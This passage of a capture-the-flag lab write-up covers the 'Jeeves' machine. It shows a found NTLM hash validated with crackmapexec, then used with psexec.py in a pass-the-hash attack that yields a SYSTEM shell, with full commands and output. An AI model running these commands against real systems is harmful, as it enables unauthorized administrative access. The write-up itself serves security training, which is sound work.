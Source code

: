 In the *Backup stuff* we find what it looks like a Windows hash:
{{< image src="/img/jev12.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

These hashes have the format ```LM Hash:NT Hash```. The LM part is not very useful, but with the NT hash we could do a **Pass-The-Hash Attack**.

If the machine is vulnerable we can use this hash as an authentication without the need of the password in clear text.

We can validate this with **crackmapexec**:
```bash
❯ crackmapexec smb 10.129.1.109 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00'

SMB         10.129.1.109    445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.129.1.109    445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

We get *(Pwn3d!)* which means we can use **psexec.py** to get a shell:
```bash
❯ psexec.py WORKGROUP/Administrator@10.129.1.109 -hashes :e0fb1fb85756c24235ff238cbe81fe00

Impacket v0.10.1.dev1+20220504.120002.d5097759 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.129.1.109.....
[*] Found writable share ADMIN$
[*] Uploading file GgZgSVVm.exe
[*] Opening SVCManager on 10.129.1.109.....
[*] Creating service BeDP on 10.129.1.109.....
[*] Starting service BeDP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

We are inside as a privileged user but the job is not finished. 
If we look for the **root.txt** in its usual path it's not there:
```bash
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,246,123,008 bytes free

C:sers\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
```

